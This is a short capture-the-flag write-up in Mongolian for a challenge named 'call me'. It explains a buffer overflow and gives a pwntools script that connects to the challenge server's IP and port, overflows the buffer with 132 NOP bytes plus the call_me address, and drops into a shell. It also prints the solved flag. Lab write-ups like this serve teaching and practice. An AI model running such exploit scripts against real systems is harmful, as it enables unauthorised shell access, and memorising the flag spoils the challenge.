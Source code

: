 ## call me

`nc 218.100.84.106 9005` дээр хавсралт дээрх elf ажиллаж байгаа болно.

> **By reamb**

## Writeup

Энгийн **Buffer Overflow** ашиглан энэ даалгаварыг амархан биелүүлэх боломжтой.

```python
from pwn import *

# 218.100.84.106 9005
r = remote('218.100.84.106', 9005)

nop = shellcraft.i386.nop()
call_me_address = 0x8048d54

r.send((asm(nop) * 132) + p32(call_me_address))
r.interactive()
```

Дээрх скриптийг ажиллуулахад **command line shell** (Interactive mode буюу`/bin/bash`) рүү орно.
Эндээс `ls`, `cat` коммандуудыг ашиглан тугийг харах боломжтой. Скрипт дээрх `nop` (no operation) үйлдлийг заавал ашиглах шаардлагагүй болно.

```
Туг: HZ{ROP_ROP_ROP_ROP}
```
